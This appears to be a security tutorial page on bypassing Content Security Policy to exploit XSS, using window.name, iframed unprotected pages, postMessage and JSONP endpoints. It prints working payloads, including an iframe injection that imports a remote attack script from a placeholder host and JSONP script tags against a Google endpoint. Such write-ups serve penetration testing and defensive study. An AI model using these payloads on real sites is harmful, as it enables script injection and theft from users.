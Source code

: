 ```yaml
---
title: Content Security Policy (CSP)
description: Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks.
badge: Web
---
```



CSP can be really anoying when trying to exploit XSSs. Here are a couple of ways to overcome this limitation.
First of all you can analyze the policy using the csp-evaluator by Google to quickly check what's available to you:

* [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com/)

CSP can be defined both as HTTP responese headers, and included inside `<meta>` like the following:

``` html
<meta http-equiv="Content-Security-Policy" content="{{ csp-policy default-src 'self' cdn.example.com;}}">
```

## Abusing `window.name`

> Can be abused on the most restricted CSP environments, but works **only in Chrome**.

Anything stored on the `name` / `window.name` variable will be shared between sites on the same browser tab. This menas that if _attacker-site_ sets the variable with any value, this will be preserved when redirected to a completely different site.

## Iframing non-protected pages

If you find an XSS vector in one resource but it's protected by CSP, there might be another resource on the same origin without said protections where you can inject arbitrary scripts using iframes.

> This should work on virtually every browser. The main drawback is the payload size, which depending on the resource you want to inject and the URL lenght for the script you want to load, might be longer than available for scenarios like stored XSS.

The idea is that, if you pop an XSS on the `/search` resource, you can use that to iframe and inject arbitrary scripts on a <smart-variable variable="non-protected-page" default-value="/robots.txt"></smart-variable> resource without CSP.

A fairly short XSS payload would be the following:

<smart-tabs variable="js-minified" :tabs="{'regular': 'Regular', 'minified': 'Minified'}">
<template v-slot:regular>

``` js
f = document.createElement("iframe")
document.body.appendChild(f).src = "{{ non-protected-page /robots.txt }}"
f.onload = () => f.contentDocument.body.innerHTML = "&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
<template v-slot:minified>

``` js
f=document.createElement("iframe"),document.body.appendChild(f).src="{{ non-protected-page /robots.txt }}",f.onload=()=>f.contentDocument.body.innerHTML="&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
</smart-tabs>

I'm using `<style onload=import` to load the script on the non-protected resource because it's a fairly short payload, but you can try any other payload.

> Iframes have to be allowed for the resource, but if it has no CSP or overly-permissive CSP, it's unlikely that iframing is disallowed from the same origin.

## Abusing `postMessage`

Less of a pain to use than `window.name`, can be used in environments with a not as restrictive CSP. As an example, if `script-src` is restricted, it would be possible to load scripts by passing code through `postMessage`

> Should work on any modern browser if allowed through the website's Content Security Policy

## Abusing JSONP

When no `unsafe-inline` is allowed, and only scripts served from a specific origin can be loaded, there's still the possiblity of abusing JSONP endpoints if present.
Your XSS should look similar to the following:

``` html
<script src="{{ jsonp-endpoint /l/es.json?callback= }}{{ xss-payload alert(document.domain)} url }%2F%2F">
```

The JSONP endpoint can be located at any origin allowed by the CSP.
There's a lot of publicly available endpoints from many interesting domains; for exaple, if `*.google.com` or `accounts.google.com` is allowed you could use the following:

``` html
<script src="https://accounts.google.com/o/oauth2/revoke?callback={{ xss-payload alert(document.domain)} url }%2F%2F">
```

There's plenty of such resources, you can find more on the following repo:

* [github.com/zigoo0/JSONBee](https://github.com/zigoo0/JSONBee)

Default JSONP endpoints provided by frameworks or stacked technologies, such as Wordpress, are usually protected against this, having many characters blocked by default. This means that if you are attacking a Wordpress site, it will most likely have an exposed JSONP endpoint, but it will be very difficult to abuse for this purpose. However, this is definetely doable with complex payloads using stuff like Same Origin Method Execution[^1][^2][^3]

[^1]: **Bypass CSP Using WordPress By Abusing Same Origin Method Execution** - [octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)
[^2]: **SOME Attack** - [www.someattack.com/Playground/About](https://www.someattack.com/Playground/About)
[^3]: #HITB2017AMS D2T1 - **Everybody Wants SOME: Advance Same Origin Method Execution** - Ben Hayak - [youtu.be/OvarkOxxdic](https://youtu.be/OvarkOxxdic)

